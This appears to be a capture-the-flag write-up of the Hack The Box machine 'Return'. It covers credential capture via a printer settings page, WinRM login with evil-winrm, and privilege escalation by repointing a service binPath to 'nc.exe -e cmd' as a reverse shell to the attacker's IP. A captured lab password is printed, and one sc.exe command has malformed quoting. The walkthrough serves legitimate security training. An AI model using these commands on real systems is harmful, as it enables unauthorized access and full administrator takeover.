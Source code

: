 ![[Pasted image 20250419002920.png]]
Enumerating with [[nmap]] we got this ports and this services. we check the web page of [[port 80]]
![[Pasted image 20250419003313.png]]
if we use [[netcat (nc)]] to listen on port `389` and change the server address for our `ip address`
![[Pasted image 20250419003437.png]]
we receive some that looks like a password.
`svc-printer:1edFg43012!!`

now, we can check [[port 445]] with [[netexec]] can enumerate things.

```bash
netexec smb 10.10.11.108
```

![[Pasted image 20250419003919.png]]

 u can validate if the credentials are valid.
 
![[Pasted image 20250419021456.png]]

first can check with `netexec` if user `svc-printer` are in group `Remote Management Users`

```bash
netexec winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![[Pasted image 20250419022120.png]]
if the output says `(Pwn3d!)` and the target has [[port 5985]] open, so we can use tools as [[evil-winrm]] to try get a interactive shell with the credentials of `svc-printer`

```bash
evil-winrm -i 10.10.11.108 -u svc-printer -p 1edFg43012!!
```

![[Pasted image 20250419022424.png]]
we are in.

Enumerating information about the user `svc-printer`
![[Pasted image 20250419023752.png]]
we see are in group [[Server Operators]] that allows us start and stop services, so list the services with `services` command.
![[Pasted image 20250419024221.png]]
we can upload [[nc.exe]] to after try establish a connection as administrator with our machine.

```powershell
upload /home/entr0phy4/Desktop/hackthebox/Return/executables/nc.exe
```
![[Pasted image 20250419025723.png]]
now with [[sc.exe]] can modify a existent service to change the binPath to aim `nc.exe`.

```powershell
sc.exe config VMTools binPath="binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.16.2 9001"
```

if we receive `[SC] ChangeServiceConfig SUCCESS` the binPath are changed successful
first start to listen on the port `9001`, after stop and start again the service selected.

![[Pasted image 20250419030323.png]]
and we got the administrator privileges. 